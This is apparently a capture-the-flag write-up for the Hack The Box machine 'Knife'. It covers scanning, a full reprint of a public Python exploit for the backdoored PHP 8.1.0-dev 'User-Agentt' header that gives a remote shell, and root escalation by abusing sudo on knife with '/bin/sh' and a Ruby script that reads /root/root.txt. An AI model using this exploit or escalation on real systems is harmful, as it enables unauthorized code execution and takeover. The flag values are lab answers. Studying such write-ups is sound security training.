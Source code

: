 # Knife

### Challenge: FullPWN

### Tools: Nmap, 

Running nmap we can see that port 80 and 22 are open. Lets run a dirb and check out the webpage while it runs.

```console
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -A -Pn 10.129.82.115
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-08 20:55 BST
Nmap scan report for 10.129.82.115
Host is up (0.0043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.97 seconds
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ dirb http://10.129.82.115

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug  8 20:57:51 2022
URL_BASE: http://10.129.82.115/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.82.115/ ----
+ http://10.129.82.115/index.php (CODE:200|SIZE:5815)                          
+ http://10.129.82.115/server-status (CODE:403|SIZE:278)                       
                                                                               
-----------------
END_TIME: Mon Aug  8 20:58:08 2022
DOWNLOADED: 4612 - FOUND: 2
```
Navigating to the webpage we can see that there is nothing interesting but running a curl command shows that its "X-Powered-By" php 8.1.0.

```console
└──╼ [★]$ curl -I 10.129.82.115
HTTP/1.1 200 OK
Date: Mon, 08 Aug 2022 20:17:49 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
A quick google search gives us an axploit we can run to get a shell on the host.

```python
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Now running the script gives us a shell!

```console
└──╼ [★]$ python3 php.py 
Enter the full host url:
http://10.129.82.115

Interactive shell is opened on http://10.129.82.115 
Can't acces tty; job crontol turned off.
$ pwd
/

$ whoami
james
```

I had trouble navigating with the limited shell but was able to locate the user flag.

```console
$ pwd
/

$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ ls home
james

$ ls home/james
user.txt

$ cat home/james/user.txt
a90760febfd2ef7c9091d21c9278a563
```

Now to priviledge escalate and grab the root flag. Its always smart to run sudo -l to see what the logged in user can use

```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Knife is the vulnerable sudo permission that we can exploit. Coincidence!? I think not!
unfortunately with this being an unstable shell I was unable to get root priviledges with this exploit from GTFO bins so we shall use another...

```console
$ sudo knife exec -E 'exec "/bin/sh"'
No input file specified.
```
Since knife can execute ruby scripts, we will make a quick script to read the root flag with sudo permissions.

```console
$ echo "data = File.read(\"/root/root.txt\")\r\nputs data" > ~/flag.rb

$ sudo knife exec ~/flag.rb
42aba59bd6f8d5ab6d7ab1e9c83945bb
```

Voila we have both flags!!

Pretty simple box. I had a little trouble after the GTFO bins didn't work on the knife command, but a little digging showed that it can run ruby scripts so then my next challenge became creating a ruby script to read the flag.
